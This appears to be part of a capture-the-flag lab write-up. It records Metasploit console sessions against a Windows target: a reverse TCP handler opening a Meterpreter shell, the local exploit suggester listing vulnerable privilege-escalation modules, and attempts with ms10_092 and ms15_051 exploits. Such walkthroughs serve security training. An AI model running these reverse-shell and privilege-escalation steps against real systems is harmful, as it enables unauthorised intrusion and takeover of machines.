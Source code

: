 ```
LPORT => 4445
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.32:4445 
[*] Sending stage (206403 bytes) to 10.10.10.9
[*] Meterpreter session 1 opened (10.10.14.32:4445 -> 10.10.10.9:49439) at 2019-09-07 16:07:15 +0200

meterpreter > background
[*] Backgrounding session 1...
```
### Exloit suggester

```
msf exploit(windows/local/ms10_015_kitrap0d) > sessions 1
[*] Starting interaction with 1...

meterpreter > run post/multi/recon/local_exploit_suggester 
Display all 281 possibilities? (y or n)
meterpreter > run post/multi/recon/local_exploit_suggester 

[*] 10.10.10.9 - Collecting local exploits for x64/windows...
[*] 10.10.10.9 - 18 exploit checks are being tried...
[+] 10.10.10.9 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.9 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
meterpreter > 
```

### Try exploit/windows/local/ms10_092_schelevator .. Fail



### Try exploit/windows/local/ms15_051_client_copy_image .. Fail

```
msf exploit(multi/handler) > use exploit/windows/local/ms15_051_client_copy_image 
msf exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(windows/local/ms15_051_client_copy_image) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64

```